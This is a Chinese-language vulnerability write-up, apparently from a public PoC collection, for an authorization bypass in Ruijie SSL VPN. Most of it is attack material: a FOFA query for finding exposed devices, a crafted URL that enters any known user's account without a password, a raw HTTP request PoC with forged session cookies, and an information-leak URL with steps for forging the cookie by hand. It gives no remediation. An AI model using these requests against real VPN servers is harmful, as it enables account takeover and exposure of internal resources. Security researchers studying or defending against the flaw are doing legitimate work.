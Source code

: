 # 锐捷SSL VPN 越权访问漏洞

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

FOFA:

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

构造URL：


```
https://1.1.1.1/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=USERNAME&sid=1614345312&oper=showres
USERNAME为已存在的用户名，访问后即可进入到主页，在个人设置可以直接给这个用户绑定SSO账号及手机号。
```

PoC:


```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

信息泄漏：

构造URL：


```
https://1.1.1.1/cgi-bin/main.cgi?oper=getrsc

注：需要先使用第一步的方式构造URL进入到设置页面，否则没有Cookie，会提示“错误：当前用户不在线,请重新登录”，当然你也可以手动构造Cookie

Cookie: UserName=USERNAME; SessionId=1614345312; FirstVist=1; Skin=1; tunnel=1
```

ref:

* https://mp.weixin.qq.com/s/iRmDQJH23FJ6mL_GzXeL6g
* https://mp.weixin.qq.com/s/WElrjPnCNNA79COFtPX0vQ